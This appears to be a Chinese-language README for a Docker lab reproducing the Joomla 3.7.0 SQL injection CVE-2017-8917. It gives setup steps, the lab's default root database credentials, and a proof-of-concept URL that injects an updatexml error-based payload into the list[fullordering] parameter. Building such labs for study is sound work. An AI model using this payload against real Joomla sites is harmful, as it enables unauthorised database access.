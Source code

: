 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境

## 测试环境

编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

 - 数据库地址：mysql:3306
 - 用户：root
 - 密码：root
 - 数据库名：joomla

填入上述信息，正常安装即可。

## POC测试

安装完成后，访问`http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到报错信息：

![](1.png)